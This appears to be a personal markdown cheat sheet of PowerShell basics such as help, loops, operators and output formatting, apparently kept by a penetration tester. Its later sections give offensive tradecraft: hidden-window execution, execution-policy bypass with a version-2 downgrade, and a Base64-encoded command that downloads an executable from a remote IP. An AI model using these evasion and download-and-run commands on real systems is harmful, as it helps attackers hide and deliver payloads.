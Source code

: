 # Basics powershell commands

## Power basic commands

### Help

```csharp
Get-Help Get-Process
Get-Help *process

Get-Help Get-Process -full
get-help get-command -Parameter *

 Get-Command -CommandType cmdlet -Name *process*

 Get-Command -Verb stop
 Get-help Stop-ASRJob

 Get-Help Out-File -Examples

Get-Command -CommandType cmdlet -Name *Child*

 Get-hotfix KDnumber

 Get-Command -CommandType cmdlet -ParameterName Computername
```

### ls

```csharp
Get-ChildItem  -Include *.ini* -File -Recurse -ErrorAction SilentlyContinue
```

### Output formatting

```csharp
Get-Command -CommandType cmdlet -Name Format*
Get-ChildItem | Format-List
Get-Process | Out-GridView
```

#### Output command into a file, then read it

```csharp
Get-Process | Out-File C:\Users\b3v1l\test.txt
Get-Content C:\Users\b3v1l\test.txt Get-ChildItem | Format-Table * | Out-File .\test.txt
```

### ​​Operator

```csharp
"hello polo" -match "polo"    → true
 "hello polo" -replace "polo","test"
hello test


-ge (equal or greater)
-le (less)
-eq (equal)
-split “Value”
-join
-is int
-is float
```

### Type

```csharp
$var = “test”
$var.GetType()

multi lines:

@"
hello
world
"@


Type conversion:

$a = 3.2 + 3
[int]$a
→ 6
```

### Array

```csharp
$array = 1,"hi",2.2
$array[1] -> “hi”

Empty array:

$empty_Ar = @()
```

### **Conditionnal Statement**

```csharp
 if (((Get-Process).Count) -gt 10) {"ok, 10"} else {"under 10"}

 Switch statement (-Exact, -Wildcard, -regex)

Switch (2) { 1 {"test 1"} 2 {"test2"}}
Switch (211) { 1 {"test 1"} 2 {"test2"} default {"erfff"}}
switch -Wildcard ('abc') { a* {"Q"} *b* {"B"} *c {"v"} }
Switch -Regex -File filename {"REGEX"{$_}}
```

### Loop

```csharp
 PS C:\Users\b3v1l > while ($count -ge 0)
>> { "Number : $count"
>> $count--
>> }

$procs = Get-Process; foreach ($proc in $procs) { $proc.Name}
```

### forEach-Object

```csharp
Get-Process |ForEach-Object {$_.Name}
Get-Process |ForEach-Object {$_.Name, $_.Path}
```

###  **Where-Object**

```csharp
Get-ChildItem |Where-Object {$_.name -match "txt"}
```

### Hidden window

```csharp
powershell -windowstyle hidden script.ps1
```

### Bypass execution restrictions

```cpp
powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C
powershell.exe -version 2 -exec bypass -C C:\Users\Raziel\AppData\Local\Temp\xyz\shell.ps1
```

### Base64 Encoding

```csharp
$cmd = "IEX(New-Object system.Net.WebClient).DownloadFile('http://10.0.0.17/file.exe', ‘C:\file.exe')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

### Powershell Environnement

```csharp
[environment]::Is64BitOperatingsystem 
True 
PS C:\temp>[environment]::Is64BitProcess 
False
```

* Get 64bit powershell

```csharp
C:\Windows\Sysnative\WindowsPowerShell\v1.0>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```

```csharp
PS C:\Windows\system32\WindowsPowerShell\v1.0> 
[environment
]::is64bitprocess True
PS C:\Windows\system32\WindowsPowerShell\v1.0>
```

### Display firewall rules

```csharp
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules | where {$_.action -eq "0"} | select name,applicationname,localports
```

### Hidden Streams

```csharp
get-content -path c:\temp\hm.txt -stream root.txt
```

